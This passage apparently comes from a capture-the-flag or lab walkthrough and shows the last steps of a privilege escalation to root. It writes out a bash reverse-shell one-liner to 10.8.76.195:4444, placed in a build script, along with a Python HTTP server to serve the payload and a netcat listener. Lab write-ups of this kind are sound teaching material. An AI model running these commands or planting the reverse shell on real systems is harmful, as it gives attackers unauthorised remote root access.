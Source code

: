 
- **Prepare Reverse Shell Script:**  
  Place your reverse shell in `/downloads/src/buildscript.sh`:
  ```bash
  bash -i >& /dev/tcp/10.8.76.195/4444 0>&1
  ```
  <img src="./images/path.png" alt="Reverse Shell Path" width="600"/>
  <img src="./images/reverse_shell.png" alt="Reverse Shell" width="600"/>

- **Serve the Payload:**
  ```bash
  python3 -m http.server 80
  ```
  <img src="./images/python_server.png" alt="Python HTTP Server" width="600"/>

- **Start Netcat Listener:**
  ```bash
  nc -lvnp 4444
  ```
  <img src="./images/listen.png" alt="Netcat Listener" width="600"/>

- **Root Shell Acquired:**
  
  <img src="./images/root_shell.png" alt="Root Shell" width="600"/>
